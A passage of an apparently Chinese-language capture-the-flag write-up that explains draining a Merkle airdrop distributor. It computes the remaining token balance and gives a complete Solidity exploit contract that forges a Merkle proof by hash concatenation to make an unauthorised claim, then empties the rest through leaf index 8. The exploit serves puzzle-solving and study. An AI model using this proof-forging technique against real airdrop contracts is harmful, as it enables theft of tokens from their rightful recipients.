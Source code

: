 ```
计算一下还剩多少token未领
0x0fe1c215e8f838e00000 - 0x00000f40f0c122ae08d2207b = 
0xa0d154c64a300ddf85
```

而这个amout刚好与index为8的节点amout相同，那么只要通过这个叶子节点，就可以领完空投合约里的所有token，解决本题。

附exploit合约

```solidity
contract Exploit {
    constructor(Setup setup) {
        MerkleDistributor merkleDistributor = setup.merkleDistributor();
        
        //通过拼接哈希，跳过第一个验证节点。
        bytes32[] memory merkleProof1 = new bytes32[](5);
        merkleProof1[0] = bytes32(0x8920c10a5317ecff2d0de2150d5d18f01cb53a377f4c29a9656785a22a680d1d);
        merkleProof1[1] = bytes32(0xc999b0a9763c737361256ccc81801b6f759e725e115e4a10aa07e63d27033fde);
        merkleProof1[2] = bytes32(0x842f0da95edb7b8dca299f71c33d4e4ecbb37c2301220f6e17eef76c5f386813);
        merkleProof1[3] = bytes32(0x0e3089bffdef8d325761bd4711d7c59b18553f14d84116aecb9098bba3c0a20c);
        merkleProof1[4] = bytes32(0x5271d2d8f9a3cc8d6fd02bfb11720e1c518a3bb08e7110d6bf7558764a8da1c5);
        merkleDistributor.claim(
                0xd43194becc149ad7bf6db88a0ae8a6622e369b3367ba2cc97ba1ea28c407c442, 
                address(0x00d48451c19959e2d9bd4e620fbe88aa5f6f7ea72a), 
                0x00000f40f0c122ae08d2207b,
                merkleProof1
        );

        //用index 8取完剩下的token即可
        bytes32[] memory merkleProof2 = new bytes32[](6);
        merkleProof2[0] = bytes32(0xe10102068cab128ad732ed1a8f53922f78f0acdca6aa82a072e02a77d343be00);
        merkleProof2[1] = bytes32(0xd779d1890bba630ee282997e511c09575fae6af79d88ae89a7a850a3eb2876b3);
        merkleProof2[2] = bytes32(0x46b46a28fab615ab202ace89e215576e28ed0ee55f5f6b5e36d7ce9b0d1feda2);
        merkleProof2[3] = bytes32(0xabde46c0e277501c050793f072f0759904f6b2b8e94023efb7fc9112f366374a);
        merkleProof2[4] = bytes32(0x0e3089bffdef8d325761bd4711d7c59b18553f14d84116aecb9098bba3c0a20c);
        merkleProof2[5] = bytes32(0x5271d2d8f9a3cc8d6fd02bfb11720e1c518a3bb08e7110d6bf7558764a8da1c5);
        merkleDistributor.claim(8, address(0x249934e4C5b838F920883a9f3ceC255C0aB3f827), 0xa0d154c64a300ddf85, merkleProof2);

    }
}
```
